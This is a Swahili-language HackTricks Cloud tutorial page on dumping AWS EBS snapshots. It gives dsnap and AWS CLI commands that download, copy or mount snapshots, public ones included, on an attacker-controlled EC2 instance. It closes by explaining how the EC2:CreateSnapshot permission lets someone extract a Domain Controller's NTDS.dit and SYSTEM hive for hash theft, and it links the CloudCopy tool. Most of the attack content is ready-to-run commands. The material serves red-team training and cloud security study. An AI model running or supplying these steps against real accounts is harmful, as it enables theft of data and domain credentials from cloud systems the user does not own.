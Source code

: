 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Jifunze na ufanye mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na ufanye mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Kuangalia snapshot kwa ndani
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Note** kwamba `dsnap` haitakuruhusu kupakua snapshots za umma. Ili kuzuia hili, unaweza kufanya nakala ya snapshot katika akaunti yako binafsi, na kupakua hiyo:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Kwa maelezo zaidi kuhusu mbinu hii angalia utafiti wa awali katika [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Unaweza kufanya hivi na Pacu kwa kutumia moduli [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Kukagua snapshot katika AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Pakia kwenye EC2 VM chini ya udhibiti wako** (inapaswa kuwa katika eneo moja na nakala ya chelezo):

Hatua ya 1: Unda kiasi kipya cha ukubwa na aina unayopendelea kwa kwenda kwenye EC2 –> Volumes.

Ili kuweza kutekeleza hatua hii, fuata amri hizi:

* Unda EBS volume ili kuunganisha na EC2 instance.
* Hakikisha EBS volume na instance ziko katika eneo moja.

Hatua ya 2: Chagua chaguo la "attach volume" kwa kubofya kulia kwenye volume iliyoundwa.

Hatua ya 3: Chagua instance kutoka kwenye kisanduku cha maandishi cha instance.

Ili kuweza kutekeleza hatua hii, tumia amri ifuatayo:

* Unganisha EBS volume.

Hatua ya 4: Ingia kwenye EC2 instance na orodhesha diski zinazopatikana kwa kutumia amri `lsblk`.

Hatua ya 5: Angalia kama volume ina data yoyote kwa kutumia amri `sudo file -s /dev/xvdf`.

Ikiwa matokeo ya amri hapo juu yanaonyesha "/dev/xvdf: data", inamaanisha volume ni tupu.

Hatua ya 6: Format volume kwa mfumo wa faili wa ext4 kwa kutumia amri `sudo mkfs -t ext4 /dev/xvdf`. Vinginevyo, unaweza pia kutumia mfumo wa xfs kwa kutumia amri `sudo mkfs -t xfs /dev/xvdf`. Tafadhali kumbuka kuwa unapaswa kutumia aidha ext4 au xfs.

Hatua ya 7: Unda saraka ya chaguo lako ili kupakia volume mpya ya ext4. Kwa mfano, unaweza kutumia jina "newvolume".

Ili kuweza kutekeleza hatua hii, tumia amri `sudo mkdir /newvolume`.

Hatua ya 8: Pakia volume kwenye saraka ya "newvolume" kwa kutumia amri `sudo mount /dev/xvdf /newvolume/`.

Hatua ya 9: Badilisha saraka kwenda kwenye saraka ya "newvolume" na angalia nafasi ya diski ili kuthibitisha upakiaji wa volume.

Ili kuweza kutekeleza hatua hii, tumia amri zifuatazo:

* Badilisha saraka kwenda `/newvolume`.
* Angalia nafasi ya diski kwa kutumia amri `df -h .`. Matokeo ya amri hii yanapaswa kuonyesha nafasi ya bure katika saraka ya "newvolume".

Unaweza kufanya hivi na Pacu kwa kutumia moduli `ebs__explore_snapshots`.

## Kuangalia snapshot katika AWS (kutumia cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Nakala ya Kivuli

Mtumiaji yeyote wa AWS mwenye ruhusa ya **`EC2:CreateSnapshot`** anaweza kuiba hashes za watumiaji wote wa domain kwa kuunda **snapshot ya Domain Controller** na kuipachika kwenye instance wanayodhibiti na **kutoa faili la NTDS.dit na SYSTEM** registry hive kwa matumizi na mradi wa Impacket's secretsdump.

Unaweza kutumia chombo hiki kuendesha shambulio: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) au unaweza kutumia mojawapo ya mbinu za awali baada ya kuunda snapshot.

## Marejeleo

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
